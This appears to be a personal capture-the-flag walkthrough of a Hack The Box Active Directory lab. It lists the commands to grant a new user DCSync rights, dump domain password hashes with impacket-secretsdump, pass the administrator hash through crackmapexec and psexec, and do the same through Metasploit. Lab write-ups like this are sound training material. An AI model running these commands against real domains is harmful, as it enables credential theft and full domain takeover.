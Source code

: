 # Killchain
- Create the malicious admin user
- ![](Pasted%20image%2020230213200305.png)
- Add it to the Exchange Windows permissions group so it can modify the `htb.local` Domain DACL
- ![](Pasted%20image%2020230213200513.png)
- `$pass = convertto-securestring 'password' -AsPlainText -Force`
- `$cred = New-Object System.management.Automation.PSCredential('htb\pj_pentester', $pass)`
- `Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync`
- On kali, we will now use this new user to dump the user hashes of the domain with `secretsdump` from impacket
	- `impacket-secretsdump htb.local/pj_pentester:password@10.129.210.137`
	- ![](Pasted%20image%2020230213202849.png)
- Most important from the dump is the `htb.local\Administrator` - this is a domain scoped admin account.
	- ![](Pasted%20image%2020230213202932.png)
- We can now run a [pass the hash](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/password-spraying) using `crackmapexec` - we confirm that this works by testing smb
- ![](Pasted%20image%2020230213203106.png)
	- With this, we can now get access with these creds through psexec
		- **Hint:** Use all 0s ahead of the hash - TODO: explain
	- ![](Pasted%20image%2020230213203428.png)
	- Domain owned
- #### Example - metasploit modules
- Instead of using an impacket script to connect to the box, its possible to use metasploit to perform the same task.
- Steps:
	- Launch with `msfconsole`
	- `search psexec`
	- ![](Pasted%20image%2020230213203654.png)
	- `use 4`
	- `show options` will display all of the required values that need to be set for a particular exploit
	- ![](Pasted%20image%2020230213204200.png)
	- ![](Pasted%20image%2020230213204113.png)
	- ![](Pasted%20image%2020230213204242.png)